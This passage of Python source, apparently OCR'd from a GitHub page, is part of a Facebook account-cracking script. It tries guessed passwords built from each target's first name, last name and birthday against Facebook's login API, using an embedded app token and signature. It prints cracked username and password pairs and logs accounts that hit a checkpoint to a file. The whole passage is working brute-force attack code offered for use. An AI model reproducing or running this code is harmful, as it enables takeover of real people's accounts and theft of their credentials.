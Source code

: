 				z = json.loads(x.text)
				print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass1+" =>"+z['name'])
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					check_it = open("out/output.txt", "a")
					check_it.write(user+"|"+pass1+"\n")
					check_it.close()
					checkpoint.append(user+pass1)
				else:
					#Pass2
					pass2 = b['first_name']+'12345'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
						z = json.loads(x.text)
						print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass2+" =>"+z['name'])
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							check_it = open("out/output.txt", "a")
							check_it.write(user+"|"+pass2+"\n")
							check_it.close()
							checkpoint.append(user+pass2)
						else:
							#Pass3
							pass3 = b['last_name'] + '123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
								z = json.loads(x.text)
								print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass3+" =>"+z['name'])
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									check_it = open("out/output.txt", "a")
									check_it.write(user+"|"+pass3+"\n")
									check_it.close()
									checkpoint.append(user+pass3)
								else:
									#Pass4
									mode = b['birthday']
									pass4 = mode.replace('/', '')
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
										z = json.loads(x.text)
										print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass4+" =>"+z['name'])
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											check_it = open("out/output.txt", "a")
											check_it.write(user+"|"+pass4+"\n")
											check_it.close()
											checkpoint.append(user+pass4)